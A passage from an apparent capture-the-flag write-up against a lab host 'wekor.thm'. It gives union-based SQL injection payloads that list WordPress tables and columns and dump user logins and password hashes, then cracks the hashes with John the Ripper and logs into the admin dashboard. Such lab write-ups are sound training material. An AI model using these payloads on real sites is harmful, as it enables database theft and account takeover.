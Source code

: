 ### Tables

{% code overflow="wrap" %}
```sql
# for "wordpress" DB.
' UNION SELECT GROUP_CONCAT(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema="wordpress"-- -

# wp_commentmeta,wp_comments,wp_links,wp_options,wp_postmeta,wp_posts,wp_term_relationships,wp_term_taxonomy,wp_termmeta,wp_terms,wp_usermeta,wp_users
```
{% endcode %}

### Columns

{% code overflow="wrap" %}
```sql
# for "wp_users" Table.
' UNION SELECT GROUP_CONCAT(column_name),NULL,NULL FROM information_schema.columns WHERE table_name="wp_users"-- -

# ID,user_login,user_pass,user_nicename,user_email,user_url,user_registered,user_activation_key,user_status,display_name
```
{% endcode %}

### Dump Data

{% code overflow="wrap" %}
```sql
' UNION SELECT GROUP_CONCAT(user_login,"|--|",user_pass),NULL,NULL FROM wordpress.wp_users-- -

admin|--|$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
wp_jeffrey|--|$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10
wp_yura|--|$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/
wp_eagle|--|$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/
```
{% endcode %}

We were able to dump user credentials. They are probably for the `http://site.wekor.thm/wordpress/wp-admin` site.

Time to crack them with John.

{% code overflow="wrap" %}
```bash
john passw --wordlist=/usr/share/wordlists/rockyou.txt

rockyou          (wp_jeffrey)     
xxxxxx           (wp_eagle)     
soccer13         (wp_yura)
```
{% endcode %}

I went to the usual `wp-admin.php` login page and tried the login with `wp_jeffrey` at first. But the dashboard didn’t reveal a lot. Then I logged in with `wp_yura` and I got an admin dashboard with all the important functionalities.
